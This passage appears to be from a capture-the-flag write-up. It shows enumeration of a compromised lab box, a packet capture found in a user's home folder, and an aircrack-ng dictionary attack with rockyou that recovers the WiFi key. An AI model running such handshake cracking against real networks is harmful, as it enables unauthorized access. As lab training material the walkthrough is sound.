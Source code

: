     ‍arp -a
    ? (172.20.0.1) at 02:42:e3:e6:86:2f [ether] on eth0

    ‍netstat -anop | grep LISTEN
    tcp        0      0 127.0.0.11:36933        0.0.0.0:*               LISTEN      -                off (0.00/0/0)
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                off (0.00/0/0)



There's only one user on the box, `zeus`, and the only thing in the
homedir is `airgeddon`, a tool for WiFi sniffing. Inside
`/home/zeus/airgeddon/captured` is a pcap and a note:



    ‍pwd
    /home/zeus/airgeddon/captured
    ‍ls -la
    total 304
    drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 .
    drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
    -rw-r--r-- 1 zeus zeus 297917 Apr  8 12:48 captured.cap
    -rw-r--r-- 1 zeus zeus     57 Apr  8 17:30 papyrus.txt

    ‍cat papyrus.txt
    Captured while flying. I'll banish him to Olympia - Zeus



### Cracking 802.11

I'll pull the cap file back to my workstation using nc, and then use
`aircrack-ng` to get the wifi password from the pcap. To do so, we'll
need the SSID, which we find in the first packet:

![](/img/1526933143270.png)



    root@kali# aircrack-ng -e Too_cl0se_to_th3_Sun -w /usr/share/wordlists/rockyou.txt olympia_loot/caputred.cap

                                     Aircrack-ng 1.2

          [00:12:44] 5306144/9822768 keys tested (7499.83 k/s)

          Time left: 10 minutes, 2 seconds                          54.02%

                            KEY FOUND! [ flightoficarus ]
